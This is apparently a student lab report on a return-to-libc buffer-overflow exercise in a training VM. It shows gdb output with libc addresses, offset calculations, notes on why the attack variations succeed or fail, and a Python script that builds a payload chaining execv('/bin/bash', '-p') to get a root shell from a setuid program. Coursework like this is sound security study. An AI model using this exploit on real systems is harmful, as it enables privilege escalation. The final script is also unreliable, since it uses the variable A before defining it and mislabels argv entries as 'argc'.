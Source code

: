 # Lab 12

SID: 12110644

Name: Sicheng Zhou

## Task 1: Finding out the Addresses of libc Functions

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e12420 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
```

## Task 2: Putting the shell string in the memory

```bash
[12/17/24]seed@VM:~/lab/Labsetup$ make prtenv
gcc -m32 -DBUF_SIZE=12 -fno-stack-protector -z noexecstack -o prtenv prtenv.c
sudo chown root prtenv && sudo chmod 4755 prtenv
[12/17/24]seed@VM:~/lab/Labsetup$ ./prtenv 
ffffd3a5
```

## Task 3: Launching the Attack

How to set X, Y, and Z:

After the buffer overflow, the return address changes to the address of the `system()` function. As soon as the program jumps to the `system()` function, its function prologue is executed, causing esp to be moved down by 4 bytes and ebp to be set to the current value of esp. So we can simply place the parameter (the address of the string "/bin/sh") 8 bytes above the current ebp. 

ebp + 4 is the return address of the `system()` function, so we put the address of the `exit()` function in there, so that when the `system()` function returns, it will jump to the `exit()` function, ending the program perfectly.


```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffcd08
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xffffccf0
gdb-peda$ p/d 0xffffcd08 - 0xffffccf0
$3 = 24
```

So X = 36, Y = 28, Z = 32.

![attack succeeds](image.png)

**Attack variation 1: Is the exit() function really necessary?**

The attack succeeds, but segementation fault occurrs when exit.

ebp+4 is the return address of the `system()` function. If a random value is put here, when the `system()` function returns, the program is likely to crash. 

![attack succeeds](image-1.png)

**Attack variation 2: change the file name of retlib to a different name.**

The attack will not succeed. 

Once ASLR is turned off, the address of the `MYSHELL` environment variable will be the same in different child processes created by the same process. However, this address depends on the length of the program name. Before the environment variable is pushed into the stack, the first thing pushed into the stack is the program name. Therefore, the length of the program name affects the location of the environment variable in memory. 

![attcak fails](image-2.png)

## Task 4: Defeat Shell’s countermeasure

1. Set the return address of `bof()` to the address of `execv()`.
2. Set the return address of `execv()` to the address of `exit()`.
3. Place the arguments. The 1st argument is the address of string "/bin/bash". The 2nd is the address of argv[0]. Because `NULL` can not be copied, we directly set this argument to the address of `input`. 

![attack succeeds](image-3.png)

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 36 # pathname
sh_addr = 0xffffd39c       # The address of "/bin/bash"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

P = 40
argv_addr = 0xffffcd30 + A # the address of argc[0] = input address + A
content[P:P+4] = (argv_addr).to_bytes(4,byteorder='little')

A = 44 # argc[0], the address of "/bin/bash"
content[A:A+4] = (sh_addr).to_bytes(4,byteorder='little')

B = 48 # argc[1]
p_addr = 0xffffd416       # The address of "-p"
content[B:B+4] = (p_addr).to_bytes(4,byteorder='little')

C = 52 # argc[2]
n = 0x00000000       # NULL
content[C:C+4] = (n).to_bytes(4,byteorder='little')

Y = 28
system_addr = 0xf7e994b0   # The address of execv()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```


